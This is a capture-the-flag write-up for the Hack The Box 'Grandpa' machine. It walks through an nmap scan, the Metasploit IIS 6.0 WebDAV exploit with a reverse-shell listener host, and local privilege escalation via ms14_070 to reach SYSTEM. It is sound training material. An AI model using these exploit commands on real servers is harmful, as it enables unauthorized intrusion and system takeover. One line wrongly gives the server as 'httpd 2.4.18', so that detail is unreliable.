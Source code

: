 ![logo](/logo.png)

# [Grandpa- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the eleventh machine on HTB,Granpa created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/grandpa 10.10.10.14
```

###### Output 

![](/Windows/Windows-Easy/Grandpa/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/grandpa 10.10.10.14                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:42 EAT
Nmap scan report for 10.10.10.14
Host is up (0.35s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 12 Aug 2024 16:43:23 GMT
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.17 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.14](http://10.10.10.14)  we find a page that say it under construction 

![](/Windows/Windows-Easy/Grandpa/Screenshots/under.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow

![](/Windows/Windows-Easy/Grandpa/Screenshots/py.png)

After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell.png)

now that the meterpreter is refusing to get some infomation we just load the shell and do a `systeminfo` so that we can be able to see if their are hot fixes 

![](/Windows/Windows-Easy/Grandpa/Screenshots/systeminfo.png)

we find that their is only one hotfix that is done

![](/Windows/Windows-Easy/Grandpa/Screenshots/hotfix.png)

we noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](/Windows/Windows-Easy/Grandpa/Screenshots/sysinfo.png)

now i run suggester to find exploits which are vulnerable

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/suggester.png)

looking at the results we find that their are a couple of exploits 

![](/Windows/Windows-Easy/Grandpa/Screenshots/exploits.png)

In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell2.png)

and just that way we get shell

![](/Windows/Windows-Easy/Grandpa/Screenshots/shellroot.png)

we can get the user flag from `C:\Documents and Settings\Harry\Desktop`

![](/Windows/Windows-Easy/Grandpa/Screenshots/userflag.png)

we can get the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](Windows/Windows-Easy/Grandpa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



